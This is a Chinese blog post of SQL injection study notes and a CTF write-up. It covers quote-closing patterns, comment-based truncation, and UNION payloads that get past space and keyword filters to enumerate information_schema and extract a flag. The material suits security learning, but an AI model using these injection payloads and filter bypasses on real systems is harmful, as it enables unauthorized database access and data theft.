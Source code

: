 ```yaml
---
layout: post
title: "sqli-studying2"
date: 2019-05-16
author: jjnoob
categories:
- 2019-05
tags:
- sqli
---
```


* content
{:toc}

> 理解, 知道为什么. 积累..


# 一. 引号闭合
> 引号闭合.


[参考Yi0nurs](https://blog.csdn.net/qiutyu/article/details/80314929)
```sql
$id=$_GET['id']; 
```
```sql
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"; 
```
下面的语句对id进行了修饰, 用`'`(单引号)把id括了起来. 所以我们构造语句的时候
1. 要把我们构造的语句 '逃逸' 出来.
2. 要把结构进行补全或者适当的注释。

<br />

# 二. mysql手工注入
[参考 隐念笎](https://www.cnblogs.com/zlgxzswjy/p/6707433.html)
## (1) 几种闭合方法:
```sql
select * from tables where id=$id;          /*这种情况下，$id变量多为数字型    不需要闭合符号，可以直接注入，但如果系统做了只能传入数字型的判断，就无法注入*/
select * from tables where id='$id';        /*这种情况下，$id变量多为字符型    需要闭合单引号，可以用?id=1'这种形式闭合*/
select * from tables where id="$id";        /*这种情况下，$id变量多为字符型    需要闭合双引号，可以用?id=1"这种形式闭合*/
select * from tables where id=($id);        /*这种情况下，$id变量多为数字型    需要闭合括号，可以用?id=1)这种形式闭合*/
select * from tables where id=('$id');      /*这种情况下，$id变量多为字符型    需要同时闭合单引号和括号，可以用?id=1')这种形式闭合*/
select * from tables where id=("$id");      /*这种情况下，$id变量多为字符型    需要同时闭合双引号和括号，可以用?id=1")这种形式闭合*/
select * from tables where id=(('$id'));    /*这种情况下，$id变量多为字符型    需要同时闭合单引号和两层括号，可以用?id=1'))这种形式闭合*/

select * from tables where id='$id' limit 0,1;    /*有些语句还有limit子句，我们可以通过上面提到的方法先闭合单引号，然后用%23，即注释符注释掉后面的语句，具体写法如下：?id=1'%23；即可闭合输出正确的语句*/
```
> `%23=#` 
> http中传输特殊的字符, 有些符号在URL中是不能直接传递的, 如果要在URL中传递这些特殊符号, 那么就要使用他们的编码了. 编码的格式为：%加字符的ASCII码


## (2) 手工注入
### 1. 找到注入点

在变量可控的部分加入一些符号，查看页面是否正常

网站www.example.com/index.php?id=1

这里的id变量是用户可控的，可以在id=1后加一个单引号，变成`id=1'` . 页面如果报错多了一个单引号，那么说明可能存在注入点。

也可以在id=1后通过and符号多增加多个判断，如果`'id=1 and 1=1'`页面正常，`'id=1 and 1=2'`时页面不正常，则这个页面边可能存在注入。

### 2. 闭合语句
一般来说，原有语句中的这个limit我们是无法利用的，多半可能会导致我们的闭合无法完成，而且为了后续便于我们遍历数据库，我们需要注入一个我们可控的limit子句，所以需要注释掉原有语句的limit子句，防止冲突。可以使用`%23`(#)等数据库注释符号，进行注释。


网站：`www.example.com/index.php?id=1`

他在数据中的查询语句是
```sql
select * from table where id='$id' limit 0,1;
```
那么我们注入的语句就可以是`?id=1' %23`

这个时候，带入到数据库查询的语句就变成了
```sql
select * from table where id='$id' #' limit 0,1;
```
`#`会把后面的语句注释掉，然后我们得到实际执行的语句就成了:
```sql
select * from table where id='$id';
```
> 因为由于编码的问题，在浏览器中直接提交#会变成空，所以我们使用url编码后的#，即`%23`，当传输到后端时，后端语言会对它自动解码成#，才能够成功带入数据库查询。


<br />

# 三. 实验吧-简单的sql注入

[题目链接](http://www.shiyanbar.com/ctf/1875)


## (1) 方法一
[参考 ShellMeShell丶](https://blog.csdn.net/Everywhere_wwx/article/details/71289107)

1. 输入`1 '`时发现MySQL报错, 可能存在注入`php?id`
2. 输入的语句中包含空格时会提示`SQLi detected!`(一开始碰到了, 后来就没碰到), 而不包含空格时, 则不会报错此类信息
3. 过滤了空格.
3. **知识点：当过滤空格时，通常用`()`或`/**/`代替空格**
4. 输入:`1/**/union/**/select/**/flag/**/from/**/flag/**/where/**/1=1`, 得到预期结果.
5. 加单引号闭合, `1'/**/union/**/select/**/flag/**/from/**/flag/**/where/**/'1'='1` 得到flag.

> 这里的字段flag和表flag是猜测的. 如果想得到表名和字段名就需要用其他办法.


## (2) 方法二
[参考wewww111](https://blog.csdn.net/wewww111/article/details/81589444)

[参考波哥在努力](https://www.cnblogs.com/tlbjiayou/p/10828601.html)


### 判断注入类型
输入`1' order by 1 #`, 报错的一部份为:`to use near '1 '' at line 1`
输入`1' orderrr by 1 #`, 报错的一部份为:`to use near 'orderrr 1'' at line 1`

可见`order`关键字被过滤, 同法也可知`select`等关键字也被过滤.
> 他这个过滤, 貌似不是一直总是过滤特定的关键字, 过滤的关键字貌似过一段时间就会变化. 有些writeup上面写`and`和空格也会过滤, 但是我没有试出来.


### 关键词被过滤的解决方法:
* 大小写交替: `Order SeLect` 
* 双写: `OderOrder SelectSelect` (双写后可能后面要加两个空格)
* 交叉： `selecselectt`  

### 主要步骤

用`/**/`绕过过滤，用`union`
暴库:
```sql
1'/**/union/**/select/**/schema_name/**/from/**/information_schema.schemata/**/where/**/'1'='1
```
> 参考的writeup作者说这里的database()貌似没用


爆表:
```sql
1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
```

爆字段:
```sql
1'/**/union/**/select/**/column_name/**/from/**/information_schema.coluinformation_schema.columnsmns/**/where/**/table_name='flag
```
报错
`infromation_schema.columns` 被过滤了,用交叉写法可以绕过
`column_name`也被过滤了

爆字段2:
```sql
1'/**/union/**/select/**/column_nacolumn_nameme/**/from/**/information_schema.coluinformation_schema.columnsmns/**/where/**/table_name='flag
```
最后一步:
```sql
1'/**/union/**/select/**/flag/**/from/**/flag/**/where/**/'1'='1
```

